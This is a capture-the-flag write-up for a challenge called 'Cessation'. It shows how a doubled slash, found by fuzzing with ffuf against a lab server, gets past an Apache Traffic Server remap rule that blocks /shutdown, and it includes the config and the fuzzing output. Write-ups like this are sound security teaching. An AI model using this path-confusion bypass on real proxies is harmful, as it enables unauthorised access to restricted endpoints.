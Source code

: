 # Cessation
![[Pasted image 20210423140708.png]]
## File provided
The file provided appears to be configuration for Apache Traffic Server. I want to request the _/shutdown_ directory, but this directory has been remapped to the _403_ directory.
```bash
cat remap.config 
regex_map http://.*/shutdown http://127.0.0.1/403
regex_map http://.*/ http://127.0.0
```

## Exploitation
I decided to try and fuzz the request after many other attempts to gain access. It appears fuzzing it with an extra _/_ changed the request enough so the proxy does not forward me, but the backend will recieve the request like normal.
```bash
──╼ $ffuf -w /opt/seclists/Fuzzing/special-chars.txt -u http://165.227.231.249:32079/FUZZshutdown

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://165.227.231.249:32079/FUZZshutdown
 :: Wordlist         : FUZZ: /opt/seclists/Fuzzing/special-chars.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

?                       [Status: 200, Size: 4147, Words: 941, Lines: 188]
#                       [Status: 200, Size: 4147, Words: 941, Lines: 188]
/                       [Status: 200, Size: 4199, Words: 940, Lines: 188]
:: Progress: [32/32] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 1 :
```

Sending this request over to BurpSuite shows us the flag.
![[Pasted image 20210423140636.png]]